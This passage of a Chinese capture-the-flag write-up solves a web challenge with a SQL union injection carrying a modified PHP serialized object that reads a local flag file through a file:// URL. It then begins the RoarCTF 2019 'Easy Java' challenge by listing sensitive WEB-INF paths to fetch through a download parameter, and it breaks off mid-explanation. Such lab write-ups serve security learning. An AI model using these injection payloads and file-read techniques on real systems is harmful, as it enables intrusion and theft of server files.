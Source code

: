 ```
```

发现`data`字段为`UserInfo`序列化后的数据

在这里我们是不是可以利用一下呢？于是我们对这个序列化后的内容稍作改动

```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

然后构造payload:

```
?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

然后我们查看源码，发现读出来的数据，`base64`解密获得`flag`

[参考](https://www.cnblogs.com/junlebao/p/14104036.html)

## [RoarCTF 2019]Easy Java

题目是登陆页面，查看源码，发现一个连接`Download?filename=help.docx`，跳转到帮助文档。
点击help也可以跳转到帮助文档。
帮助文档内容为`java.io.FileNotFoundException:{help.docx}`，是java语句，帮助文档不存在。

#### [WEB-INF知识点](https://www.cnblogs.com/darkcyan/p/17668377.html#web-inf知识点)

`WEB-INF`是`java`的`WEB`应用的安全目录，此外如果想在页面访问`WEB-INF`应用里面的文件，必须要通过`web.xml`进行相应的映射才能访问。
其中敏感目录举例：

> `/WEB-INF/web.xml`：`Web`应用程序配置文件，描述了 `servlet` 和其他的应用组件配置及命名规则
> `/WEB-INF/classes/`：含了站点所有用的 `class`文件，包括`servlet class` 和非`servlet class`，他们不能包含在`.jar`文件中
> `/WEB-INF/lib/`：存放`web`应用需要的各种`JAR`文件，放置仅在这个应用中要求使用的`jar`文件,如数据库驱动`jar`文件
> `/WEB-INF/src/`：源码目录，按照包名结构放置各个`java`文件
> `/WEB-INF/database.properties`：数据库配置文件

简单来说，`java web`是基于`Tomcat`服务器搭建的，通过`servlet`来开发。
狭义来说，`servlet`是指`Java`语言实现的一个接口。

访问方式

> `<servlet-class>`  这个就是指向我们要注册的`servlet` 的类地址, 要带包路径
>
> `<servlet-mapping>`  是用来配置我们注册的组件的访问路径,里面包括两个节点 一个是`<servlet-name>`，这个要与前面写的`servlet`一致 另一个是`<url-pattern>`，配置这个组件的访问路径 `<servlet-name>` 这个是我们要注册`servlet`的名字,一般跟`Servlet`类名有关
>
> 举个例子
> <servlet>
> <servlet-name>FlagController</servlet-name>
> <servlet-class>com.wm.ctf.FlagController</servlet-class>
> </servlet>

`servlet`包含了路径信息，我们尝试包含一下`FlagController`所在路径，不过这次要在前面加上`classes`来访问来访问`class`文件目录（详见上面的目录结构），且文件后缀为`.class`
